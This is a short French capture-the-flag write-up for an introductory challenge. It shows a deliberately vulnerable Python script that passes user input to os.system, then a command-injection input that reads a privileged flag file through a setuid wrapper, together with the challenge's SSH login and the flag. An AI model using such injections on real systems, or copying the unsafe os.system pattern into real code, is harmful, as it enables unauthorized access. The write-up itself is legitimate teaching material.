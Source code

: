 Votre but est d'exploiter le binaire (en exécutant ./wrapper), n'oubliez pas de lire le fichier chall.py, qui est le programme exécuté par ./wrapper.

Le flag est situé ici : /home/r00t/flag/flag.txt

Nom d'utilisateur : jail
Mot de passe : jail
ssh -p 4444 jail@intro.ctfrei.fr 

-------------------------------------------------------

```
#!/usr/bin/python3
import os

print("Rentre en input un directory que tu veux ls !")
s = input("ls ")
os.system(f'ls {s}')
```

-------------------------------------------------------

On constate que wrapper appartient à r00t et qu'on peu l'executer.
```
jail@c8ca7891ea87:~$ ls -la
total 32
drwxr-xr-x 1 root root  4096 Sep 19 14:00 .
drwxr-xr-x 1 root root  4096 Sep 19 14:00 ..
-rwxr-xr-x 1 root root   123 Sep 12 13:25 chall.py
-rwsr-xr-x 1 r00t r00t 16056 Sep 19 14:00 wrapper
```

On peut manipuler l'input de python pour executer les commandes que l'on veut :
```
os.system(f'ls {s}')
```
```
jail@c8ca7891ea87:~$ ./wrapper 
Rentre en input un directory que tu veux ls !
ls / & cat /home/r00t/flag/flag.txt
CTFREI{3a5y_b1n4ry_3xpl0it}
bin   dev  home  lib32	libx32	mnt  proc  run	 srv  tmp  var
boot  etc  lib	 lib64	media	opt  root  sbin  sys  usr
```
